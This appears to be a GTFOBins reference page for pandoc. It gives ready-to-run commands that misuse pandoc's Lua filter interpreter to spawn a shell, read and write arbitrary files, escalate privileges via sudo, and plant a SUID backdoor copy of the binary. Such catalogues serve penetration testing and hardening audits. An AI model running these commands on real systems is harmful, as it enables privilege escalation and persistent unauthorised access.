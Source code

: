# GTFOBin: pandoc

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Pandoc has a builtin `lua` interpreter for writing filters, other functions might apply.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' >$TF
pandoc -L $TF /dev/null
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
echo DATA | pandoc -t plain -o "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
pandoc -t plain "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which pandoc) .

LFILE=file_to_write
echo DATA | ./pandoc -t plain -o "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Pandoc has a builtin `lua` interpreter for writing filters, other functions might apply.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' >$TF
sudo pandoc -L $TF /dev/null
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Pandoc has a builtin `lua` interpreter for writing filters, other functions might apply.

```
sudo install -m =xs $(which pandoc) .

TF=$(mktemp)
echo 'os.execute("/bin/sh")' >$TF
./pandoc -L $TF /dev/null
```
